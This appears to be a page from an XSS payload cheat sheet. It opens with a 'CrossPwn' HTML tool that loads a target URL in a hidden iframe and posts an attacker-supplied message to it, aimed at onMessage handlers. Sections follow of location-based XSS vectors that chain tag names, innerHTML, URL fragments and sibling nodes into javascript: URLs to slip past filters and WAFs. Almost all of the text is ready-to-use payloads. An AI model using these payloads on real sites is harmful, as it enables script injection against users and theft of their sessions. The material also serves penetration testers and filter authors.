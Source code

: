 <body onload="CrossPwn()"> 
<h2>CrossPwn</h2>
<p>OnMessage XSS</p>
<p>Use target & msg as URL parameters.</p>
<iframe id="f" height="0" style="visibility:hidden">
</iframe>
<script>
   searchParams = new URLSearchParams(document.location.search);
   target = searchParams.get('target');
   msg = searchParams.get('msg');
   document.getElementById('f').setAttribute('src', target);
   function CrossPwn() {frames[0].postMessage(msg,'*')}
</script>
</body>
</html>
```


## Location Based Payloads
The following XSS vectors use a more elaborated way to execute the payload making use of
document properties to feed another document property, the location one.
That leads to complex vectors which can be very useful to bypass filters and WAFs. 
Because they use arbitrary tags (XHTML), any of the Agnostic Event Handlers seen before can be used. Here, `onmouseover` will be used as default.   
Encode the plus sign (+) as %2B in URLs.
Location Basics
Vectors with simpler manipulation to achieve the redirection to javascript pseudo-protocol.
```
<j/onmouseover=location=innerHTML>javascript:alert(1)//
<iframe id=t:alert(1) name=javascrip onload=location=name+id>
```

## Location with URL Fragment
It’s required to use the vector with an unencoded # sign. If used in POST requests, URL 
fragment must be used in action URL.  
```
<javascript/onmouseover=location=tagName+innerHTML+location.hash>:/*hoverme!
</javascript>#*/alert(1)
<javascript/onmouseover=location=tagName+innerHTML+location.hash>:'hoverme!
</javascript>#'-alert(1)
<javascript:'-`/onmouseover=location=tagName+URL>hoverme!#`-alert(1)
<j/onmouseover=location=innerHTML+URL>javascript:'-`hoverme!</j>#`-alert(1)
<javas/onmouseover=location=tagName+innerHTML+URL>cript:'-`hoverme!</javas>
#`-alert(1)
<javascript:/onmouseover=location=tagName+URL>hoverme!#%0Aalert(1)
<j/onmouseover=location=innerHTML+URL>javascript:</j>#%0Aalert(1)
<javas/onmouseover=location=tagName+innerHTML+URL>cript:</javas>#%0Aalert(1)
```


## Location with Leading Alert
```
-alert(1)<javascript:
onmouseover=location=tagName+previousSibling.nodeValue>hoverme!
`-alert(1)<javas/
onmouseover=location=tagName+innerHTML+previousSibling.nodeValue>cript:`hoverme!
<alert(1)
<j/1="*/""-alert(1)<!--/onmouseover=location=innerHTML+outerHTML>
javascript:/*hoverme!
*/"<j/1=/alert(1)//onmouseover=location=innerHTML+
previousSibling.nodeValue+outerHTML>javascript:/*hoverme!
```


```